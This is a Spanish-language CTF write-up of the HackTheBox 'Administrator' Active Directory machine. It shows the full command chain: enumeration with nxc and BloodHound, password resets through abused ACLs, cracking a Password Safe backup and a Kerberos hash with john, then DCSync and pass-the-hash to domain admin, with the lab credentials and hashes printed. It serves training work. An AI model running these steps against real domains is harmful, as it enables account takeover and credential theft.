

## Spoiler
---

<style>
  .spoiler-toggle {
    position: absolute;
    opacity: 0;
    pointer-events: none;
  }

  .spoiler-text {
    cursor: pointer;
    filter: blur(6px);
    opacity: 0.35;
    transition: filter 0.2s ease, opacity 0.2s ease;
  }

  .spoiler-toggle:checked + .spoiler-text {
    filter: none;
    opacity: 1;
    user-select: text;
  }
</style>

Hint 1:
<input class="spoiler-toggle" type="checkbox" id="step-1">
<label class="spoiler-text" for="step-1">
  Bloodhound tu mejor amigo para penmtesting AD :)
</label>

Hint 2:
<input class="spoiler-toggle" type="checkbox" id="step-2">
<label class="spoiler-text" for="step-2">
  SMB, FTP, hay diferencias ? despues de todo ambos sirven para compartir cosas no ?
</label>

Hint 3:
<input class="spoiler-toggle" type="checkbox" id="step-3">
<label class="spoiler-text" for="step-3">
  Las contraseñas y llaves son fáciles de romper con una piedra ;)
</label>

Hint 4:
<input class="spoiler-toggle" type="checkbox" id="step-4">
<label class="spoiler-text" for="step-4">
  Permisos everywhere, bloodhound tu merjor amigo x2
</label>


## Writeupp
---

> [!quote]
> Esta máquina nos otorga una credencial inicial el cual es `olivia:ichliebedich`

### Reconocimiento

Primero se realizará el escaneo de puertos y servicios de la máquina utilizando la herramienta `nmap`

```sh
nmap -sS -Pn -n --min-rate 5000 -p- 10.129.55.244 -sV
```



Notamos que disponemos de muchos puertos abiertos (algo común en máquinas windows de HTB), adicional a esto notamos que dentro de la información de los serevicios da a entender que estamos en un entorno de Active Directory cuyo dominio sería *administrator.htb*

Se verificará el nombre del dominio y la máquina por medio de la herramienta `nxc`

```sh
❯ nxc smb 10.129.55.244
SMB         10.129.55.244   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:None) (Null Auth:True)
```

Una vez que obtenemos el nombre y el dominio pasamos a indexarlo dentro del archivo **/etc/hosts**, esto se hace para que la máquina pueda reconocer que ip de HTB se vincula al nombre del dominio y la máquina, así no se tendrán tantos problemas con las herramientas que se usarán.

```sh
cat /etc/hosts
```

```plaintext
(...)
# HackTheBox
10.129.55.244 administrator.htb DC.administrator.htb DC
```

Ahora usaremos las credenciales otorgadas inicialmente para poder realizar un reconocimiento hacia el active directory

Primero veremos los recursos compartidos por *SMB*

```sh
nxc smb administrator.htb -u olivia -p ichliebedich --shares
```



Vemos las típicas carpetas compartidas de un AD, ahora veremos si dipone de algún archivo interesante dentro

```sh
nxc smb administrator.htb -u olivia -p ichliebedich -M spider_plus
```



Al leer el archivo *.json* que nos arroja el módulo no obtenemos algo interesante

Enumeraremos entonces los usuarios del dominio

```sh
nxc smb administrator.htb -u olivia -p ichliebedich --users
```



Veremos si alguno de ellos es susceptible a técnicas como ASREP-ROAST o Kerberoasting

```sh
❯ nxc ldap administrator.htb -u olivia -p ichliebedich --asreproast output
LDAP        10.129.55.244   389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:administrator.htb) (signing:None) (channel binding:No TLS cert) 
LDAP        10.129.55.244   389    DC               [+] administrator.htb\olivia:ichliebedich 
LDAP        10.129.55.244   389    DC               No entries found!
```

```sh
❯ nxc ldap administrator.htb -u olivia -p ichliebedich --asreproast kerberoasting
LDAP        10.129.55.244   389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:administrator.htb) (signing:None) (channel binding:No TLS cert) 
LDAP        10.129.55.244   389    DC               [+] administrator.htb\olivia:ichliebedich 
LDAP        10.129.55.244   389    DC               No entries found!
```

Al notar que no se tienen resultados utlizaremos la herramienta `bloodhound`, esta herramienta nos permitirá ver de manera gráfica diferentes relaciones entre los objetos del AD, entre ellas lo que más se ve en estos casos son los permisos que se tienen unos objetos a otros.

Para realizar este análisis primero debemos las relaciones entre los objetos del AD así que usaremos la herramienta `bloodhound-python` para usarlo como input hacia `bloodhound`

```sh
bloodhound-python -u olivia -p ichliebedich -ns 10.129.55.244 -dc administrator.htb -d administrator.htb -c all
```

Esto nos arrojará diversos archivos *.json* que cargaremos en `bloodhound`

En nuestro análisis verioficaremos si el usuario que disponemos *olivia* tiene permisos sobre algún objeto del AD



Notamos que el usuario *olivia* tiene el permiso de `GenericAll` sobre el usuario *michael*, esto permite, entre otros, cambiarle la contraseña al usuario

> [!info]
> Bloodhound tiene la particularidad que adicional a mostrar los permisos tambien mostrar la forma en cómo se podría aprovechar este permiso

Entonces le cambiaremos la contraseña al usuario michael

```sh
net rpc password "michael" "Password123." -U "administrator.htb"/"olivia"%"ichliebedich" -S "10.129.55.244"
```

Pasaremos a verificar el cambio realizado

```sh
❯ nxc smb administrator.htb -u michael -p 'Password123.'
SMB         10.129.55.244   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:None) (Null Auth:True)                                                                                                                                           
SMB         10.129.55.244   445    DC               [+] administrator.htb\michael:Password123.
```

Vemos que el cambio se ha realizado con éxito, ahora veremos dentro de bloodhound si el usuario *michael* tiene permisos sobre algún objeto del AD



Notamos que el usuario *michael* tiene el permiso `ForceChangePassword` sobre el usuario *benjamin*, por lo que le cambiaremos la contraseña utilizando el mismo método

```sh
net rpc password "benjamin" "Password123." -U "administrator.htb"/"michael"%"Password123." -S "10.129.55.244"
```

Y verificaremos el cambio

```sh
❯ nxc smb administrator.htb -u benjamin -p 'Password123.'
SMB         10.129.55.244   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:None) (Null Auth:True)                                                                                                                                           
SMB         10.129.55.244   445    DC               [+] administrator.htb\benjamin:Password123.
```

De la misma manera veremos los permisos de *benjamin* sobre el AD, pero notaremos que no hay un permiso sobre algún usuario o grupo, sin embargo, se puede visualizar que este usuario es parte de un grupo interesante llamado *share moderators*



Veremos que tipo de permisos tiene el usuario *benjamin* sobre los recursos compartidos en la máquina

```sh
❯ nxc smb administrator.htb -u benjamin -p 'Password123.' --shares
SMB         10.129.55.244   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:None) (Null Auth:True)                                                                                                                                           
SMB         10.129.55.244   445    DC               [+] administrator.htb\benjamin:Password123. 
SMB         10.129.55.244   445    DC               [*] Enumerated shares
SMB         10.129.55.244   445    DC               Share           Permissions     Remark
SMB         10.129.55.244   445    DC               -----           -----------     ------
SMB         10.129.55.244   445    DC               ADMIN$                          Remote Admin
SMB         10.129.55.244   445    DC               C$                              Default share
SMB         10.129.55.244   445    DC               IPC$            READ            Remote IPC
SMB         10.129.55.244   445    DC               NETLOGON        READ            Logon server share 
SMB         10.129.55.244   445    DC               SYSVOL          READ            Logon server share
```

Vemos que dentro de los recursos compartidos por *SMB* son los mismos que los que tiene el usuario que nos dieron al inicio, pero recordemos que *SMB* no es el único que comparte recursos ya que tambien tenemos al *FTP*

#### Password Safe

Ingresaremos por FTP utilizando las credenciales de *benjamin*

```sh
❯ ftp administrator.htb
Connected to administrator.htb.
220 Microsoft FTP Service
Name (administrator.htb:fluwh3n): benjamin
331 Password required
Password: 
230 User logged in.
```

Vemos que tenemos una sesión exitosa, entonces veremos que recursos que se comparten

```sh
ftp> ls
229 Entering Extended Passive Mode (|||50598|)
125 Data connection already open; Transfer starting.
10-05-24  09:13AM                  952 Backup.psafe3
226 Transfer complete.
```

Se comparte un archivo llamado **Backup.psafe3**, lo descargaremos y analizaremos que tipo de archivo es

```sh
❯ file Backup.psafe3
Backup.psafe3: Password Safe V3 database
```

Es un archivo que contiene contraseñas, esta se encriptan bajo una llave la cual no tenemos, sin embargo, podría ser una llave débil la cual podría encontrarse dentro de un diccionario

Para verificar esto primero sacaremos el hash de la llave del archivo utilizando `pwsafe2john` y lo colocaremos en un archivo llamadp **hash**

```sh
pwsafe2john Backup.psafe3 > hash
```

Ahora con `john` intentaremos descubrir la contraseña utilizando la el diccionario **rockyou.txt**

```sh
❯ john hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (pwsafe, Password Safe [SHA256 512/512 AVX512BW 16x])
Cost 1 (iteration count) is 2048 for all loaded hashes
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tekieromucho     (Backu)     
1g 0:00:00:00 DONE (2026-08-16 11:54) 11.11g/s 273066p/s 273066c/s 273066C/s 123456..280789
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Obtenemos que la contraseña es *tekieromucho*, ahora podremos acceder al gestor de contraseñas utilizando `pwsafe`



Vemos que hay 3 credenciales dentro del *pwsafe*



Copiamos las 3 credenciales y vemos su contenido

```plaintext
alexander:UrkIbagoxMyUGw0aPlj9B0AXSea4Sw
emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb
emma:WwANQWnmJnGV07WQN8bMS7FMAbjNur
```

Probaremos si alguna credencial es correcta



Notamos que la credencial válida es la del usuario *emily*, por lo que veremos si dispone de algún permiso sobre el AD por medio de `bloodhound`


*emily* dispone del permiso `GenericWrite` sobre el usuario *ethan*, este permiso nos permite asignarle un SPN temporal al usuario *ethan* y así volverlo susceptible a *kerberoasting* para obtener el hash de su contraseña, para realizar esto utilizaremos una herramienta de github llamada [**targetedKerberoast.py**](https://github.com/ShutdownRepo/targetedKerberoast)

```sh
python3 targetedKerberoast.py -v -d 'administrator.htb' -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
```



Colocamos el contenido de dicho hash en un archivo llamado *hash* y lo procesaremos con `john` para identificar la contraseña

```sh
❯ john hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
limpbizkit       (?)     
1g 0:00:00:00 DONE (2026-08-16 19:12) 100.0g/s 614400p/s 614400c/s 614400C/s adriano..iheartyou
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

La contraseña de *ethan* es *limpbizkit*, ahora veremos que permisos tiene *ethan* sobre el AD



Vemos que dispone del permiso *GetChangesAll* sobre el mismo dominio, esto nos permite obtener los hashes *NTLM* de todos los usuarios del dominio incluyendo el administrator !

Para obtener los hashes *NTLM* usaremos la herramienta `impacket-secretsdump`



Con esto obtenemos los hashes NTLM de todos los usuarios del dominio, para ingresar a la máquina podremos usar la cuenta del administrator y su hash para realizar un *PassTheHash* y obtener las flags correspondientes del reto.

### Escalamiento de privilegios

```sh
❯ nxc smb administrator.htb -u administrator -H 3dc553ce4b9fd20bd016e098d2d2fd2e
SMB         10.129.55.244   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.55.244   445    DC               [+] administrator.htb\administrator:3dc553ce4b9fd20bd016e098d2d2fd2e (Pwn3d!)
```